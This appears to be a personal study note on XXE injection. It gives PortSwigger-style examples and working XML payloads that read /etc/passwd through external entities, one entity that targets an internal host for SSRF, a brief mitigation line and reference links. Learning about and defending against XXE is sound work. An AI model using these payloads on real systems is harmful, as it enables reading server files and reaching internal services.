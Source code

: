 # XXE Vulnerablity

XML external entity injection (also known as XXE) is a web security vulnerability that enables an attacker to interfere with the processing of XML data within a web application. XXE vulnerabilities arise due to the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

## XXE to retrieve files
Portswigger example of stock level in  shopping application:
`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## XXE to SSRF attacks
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

3. Blind XXE to exfiltrate data out-of-band
4. Blind XXE to retrieve data via error messages

## XXE XML Entity injection
See [[XML-Basics]] for more about XML
```xml
<!--Last Line of Request -->

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)> <!-- REF: (#ANY) instead of (ANY) -->
<!ENTITY file SYSTEM "file:///etc/passwd">
]> 
<xmlEntityInjection>
	<Author>Hacker1</Author> 
	<Subject>&file;</Subject>>
	<Content>LearnDaXMLs3</Content>
</xmlEntityInjection>

<!--Notes -->
<!-- Creates a Header-->
<!-- System call to file variable->
<!-- Prints address file with &file -->
<!-- The two section must connect -->
```
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)

## Mediation

Configuration of a XML interperter disallowing the inclusion of external entities enabling attack against applications that interpret XML language in their parameters. 



## References

[THM Walkthrough Room on XXE CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
[Portswigger](https://portswigger.net/web-security/xxe)
[BrightSec](https://brightsec.com/blog/xxe-attack/)
[OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
[Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)